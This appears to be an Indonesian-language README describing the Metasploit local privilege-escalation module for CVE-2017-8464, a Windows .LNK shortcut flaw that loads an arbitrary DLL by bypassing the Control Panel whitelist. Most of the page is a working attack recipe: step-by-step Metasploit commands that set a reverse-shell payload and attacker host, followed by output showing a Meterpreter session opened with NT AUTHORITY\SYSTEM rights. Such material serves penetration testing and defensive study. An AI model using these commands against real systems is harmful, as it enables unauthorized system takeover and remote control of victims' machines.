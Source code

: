 # cve_2017_8464_lnk_lpe

Modul ini mengeksploitasi kerentanan dalam penanganan file Shortcut Windows (`.LNK`) yang memuat ikon dinamis, di mana ikon tersebut dimuat dari sebuah `DLL` berbahaya.

Kerentanan ini merupakan varian dari `MS15-020` (`CVE-2015-0096`). File `LNK` yang dibuat mirip, namun terdapat tambahan `SpecialFolderDataBlock`. `ID` folder yang disetel dalam `SpecialFolderDataBlock` ini diarahkan ke `Control Panel`. Ini sudah cukup untuk melewati daftar putih (`whitelist`) `CPL`.

Bypass ini dapat digunakan untuk menipu Windows agar memuat file `DLL` sewenang-wenang (`arbitrary DLL`).

Opsi `PATH` harus merupakan path absolut ke direktori yang dapat ditulisi dan diindeks untuk pencarian. Jika `PATH` tidak ditentukan, modul secara default akan menggunakan `%USERPROFILE%`.

## Penulis
- Uncredited
- [Yorick Koster](https://github.com/ykoster)
- [Spencer McIntyre](https://github.com/zerosteiner)

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2017_8464_lnk_lpe
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Generating LNK file to load: C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[+] Deleted C:\Users\admin\CAkoGlgdwbVztjah.lnk
[*] Meterpreter session 8 opened (192.168.1.11:4444 -> 192.168.1.53:49175) at 2025-05-17 05:18:06 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2017_8464_lnk_lpe/)
